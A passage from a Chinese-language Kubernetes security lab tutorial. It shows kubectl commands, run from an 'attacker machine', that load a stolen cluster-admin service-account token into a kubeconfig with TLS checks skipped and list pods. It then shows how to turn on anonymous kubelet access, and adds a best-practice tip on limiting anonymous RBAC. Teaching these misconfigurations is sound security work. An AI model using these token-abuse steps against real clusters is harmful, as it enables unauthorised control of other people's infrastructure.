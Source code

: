 - 在攻击机上面安装kubectl，创建一个test-token文件，把token放进去

  ~~~sh
  #攻击机上操作
  #把token base64解码
  echo "ZX...V3" | base64 -d
  
  #通过命令把token写入到一个自定义的config文件里面，定义一个叫hacker的用户
  kubectl --kubeconfig=./test_token config set-credentials hacker --token="ey...Rew"
  #通过命令把api server的信息也写到这个config文件里面
  kubectl --kubeconfig=./test_token config set-cluster hacker_cluster --server=https://172.16.183.75:6443/  --insecure-skip-tls-verify
  #定义context
  kubectl --kubeconfig=./test_token config set-context hacker_context --cluster=hacker_cluster --user=hacker
  #设置current context
  kubectl --kubeconfig=./test_token config use-context hacker_context
  ~~~

- 尝试查看资源

  ~~~sh
  #攻击机上操作
  kubectl --kubeconfig=./test_token get pods -n default
  ~~~

> 总结：
>
> 1. 管理员给system:anonymous开放cluster-admin之后，攻击者可以通过接口看到所有的ns以及里面的secrets。
> 2. 管理员又给某个ns的default sa绑定了token，并且赋予了cluster-admin的权限。攻击者可以直接通过anonymous用户访问api接口，一个一个ns来试，看看哪个ns的sa绑定了token。
> 3. 拿到token之后，就能用绑这个有大权限的token，以default这个sa的身份去做任何操作了。
>
> 最佳实践：
>
> - 有时候不可避免需要给匿名用户开放权限，让集群外用户去操作集群资源。建议单独创建ns来给有需求的用户使用，授权也仅在这个ns中给admin的权限。

# 模拟攻击kubelet

> kubelet默认开了三个端口：
>
> 1. 10250：
>    - 作用：这是kubelet的主要监听端口，用于与API服务器通信，接收来自API服务器的指令，并提供节点的状态信息。
>    - 安全性：这个端口通常需要进行身份验证和授权，以确保只有合法的请求才能访问。
> 2. 10248：
>    - 作用：这个端口用于kubelet的健康检查。kubelet通过这个端口提供一个简单的HTTP服务，返回kubelet的健康状态。
>    - 安全性：这个端口通常不需要身份验证，因为它的主要目的是提供一个简单的健康检查机制。
> 3. 10255：
>    - 作用：这个端口用于提供只读的API接口，允许用户查询节点的状态和Pod的信息，但无法修改这些信息。
>    - 安全性：这个端口通常不需要身份验证，因为它提供的是只读访问。

- 正常情况下访问kubelet是没有权限的：https://172.16.183.76:10250/pods，在kubelet配置文件中可以配置开启kubelet的匿名访问。

  ~~~sh
  vim /var/lib/kubelet/config.yaml
  #anonymous.enabled改为true
  systemctl restart kubelet
  ~~~
